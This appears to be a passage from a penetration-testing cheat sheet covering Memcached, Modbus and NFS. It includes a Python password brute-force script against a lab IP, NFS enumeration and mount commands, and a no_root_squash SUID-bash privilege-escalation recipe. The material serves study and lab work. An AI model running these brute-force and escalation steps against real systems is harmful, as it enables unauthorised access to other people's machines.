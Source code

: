 **Tools**

- Python Library: <https://github.com/abstatic/python-memcached-stats>
- Bruteforce
    ```python
    #!/usr/bin/python3
    import subprocess

    dictionary=open("/usr/share/wordlists/rockyou.txt")
    for pwd in dictionary:
        out=subprocess.getoutput('memcstat --servers=192.64.38.3 --username=student --password='+pwd)
        if len(out)>0:
            print(out)
            print("PASSWORD: "+pwd)
            break
    ```

**Hardening**
**References**

## Modbus - 502/tcp

**Quick Reference**
**Tools**

-  Map a SCADA MODBUS TCP based network: <https://packetstormsecurity.com/UNIX/scanners/modscan.py.txt>
  
**Hardening**
**References**

## NFS - 2049/tcp

**Quick Reference**

- Configuration files
    ```
    /etc/exports
    /etc/lib/nfs/xtab
    ```
- Enumeration
    ```bash
    nmap -sV --script=nfs-* 192.168.44.133
    nmap -sV --script=nfs-ls 192.168.44.133  //same result as rpcinfo
    nmap -sV --script=nfs-* 192.168.44.133
    ```
- Enumerate NFS shares: `showmount -e hostname/ip_address`
- Mount NFS shares:
    ```bash
    mount -t nfs ip_address:/directory_found_exported /local_mount_point
    mount -t nfs 192.168.1.72:/home/vulnix /tmp/mnt -nolock
    ```
- `/etc/exports` file contains configurations and permissions of which folders/file systems are exported to remote users
- Root squashing - Prevents having root access to remote root users connected to NFS volume. Remote root users are assigned a user "nfsnobody" when connected.
  - <https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/>
  - `no_root_squash` - Gives the remote user root access to the connected system
    - With limited user account: `cp /bin/bash /shared`
    - Then mount the share: `mount -t nfs server:/shared /mnt/` and run `chown root:root bash && chmod u+s bash`
    - Run the file with limited user account: `/shared/bash`
  